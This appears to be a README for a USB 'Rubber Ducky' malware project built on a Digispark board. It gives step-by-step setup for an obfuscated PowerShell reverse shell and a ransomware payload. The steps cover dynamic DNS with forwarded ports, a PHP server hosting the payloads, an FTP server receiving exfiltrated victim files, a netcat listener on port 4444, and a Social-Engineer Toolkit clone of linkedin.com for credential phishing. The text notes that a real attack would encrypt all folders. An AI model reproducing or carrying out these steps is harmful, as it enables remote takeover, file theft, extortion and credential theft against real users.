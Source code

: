 # Instructions for execution the ‘Rubber Ducky’
Malwareob.ps1 - It is the obfuscated payload for reverse shell <br />
Enc2.ps1 - It is the ransomware payload <br />
Malwareproject.ino - the code for the usb
### DYNAMIC DNS
First set up with noip a hostname. <br />
Then configure the router to take the requests in ports 80,443 and 4444 to the attacker IP.
### Install Arduino IDE
1. Install the drivers and the libraries for digispark: <br />
https://github.com/LilyGO/DigiSpark-ATtiny85-driver-install <br />
Follow this to connect libraries: https://digistump.com/wiki/digispark/tutorials/connecting <br />
Try the example at the end to ensure that the usb is working.
2. Upload the code of the malwareproject.ino in the USB <br />

Before that you should set up the attacker.
### Attacker
1. Open a cmd create a folder and then insert the payloads of the reverse shell and the
ransomware. <br />
Start the server running sudo php -S 0.0.0.0:443 –t /directory/to/folder/of/powershellScript/ (in our
case the path is /home/kali/sofia/)
2. Open a cmd and install ftp: <br />
sudo apt-get install vsftpd <br />
sudo nano /etc/vsftpd.conf <br />
write_enable=YES <br />
sudo chown -R kali /var/www/html <br />
sudo chmod 757 -R /var/www/html <br />
service vsftpd start 
3. In another cmd write nc –lp 4444 to set the netcat listening to that port.
4. The last cmd, “set setoolkit” <br />
We select the option 1,2,3 then we put our public IP of the dynamic dns and for cloning linkedin.com <br />
For the testing purposes we put in the enc2 file a specific path to encrypt, to test it change this path with
one you would like. In a real case scenario, we will do it for all folders. <br />
Change the paths: <br />
  >1. $path= get-childitem -path "C:\Users\pc\Desktop\Lourdes\test\*" <br />
  >2. echo "mput C:\Users\pc\Desktop\Lourdes\test\*.*" >> $home\ft1.txt
